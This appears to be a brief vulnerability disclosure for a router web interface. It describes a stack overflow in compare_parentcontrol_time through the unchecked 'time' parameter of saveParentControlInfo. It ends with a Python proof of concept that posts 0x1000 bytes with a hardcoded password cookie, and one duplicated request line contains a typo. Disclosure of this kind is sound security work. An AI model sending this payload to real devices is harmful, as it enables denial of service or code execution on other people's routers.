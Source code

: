 In the function compare_parentcontrol_time, the program retrieves content from the parameter 'time' and passes it to the variable s created by the program, with the variable's value being passed via scanf. There is no size check, which leads to a stack overflow vulnerability. An attacker can easily execute arbitrary code or cause a denial of service attack using carefully crafted overflow data.

<img width="415" height="340" alt="image" src="https://github.com/user-attachments/assets/735b5a28-39eb-457f-a592-c93279d0a65c" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/saveParentControlInfo"

cookie = {"Cookie":"password=12345"}
data = {"time": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, caookies=cookie, data=data)
print(response.text)
```
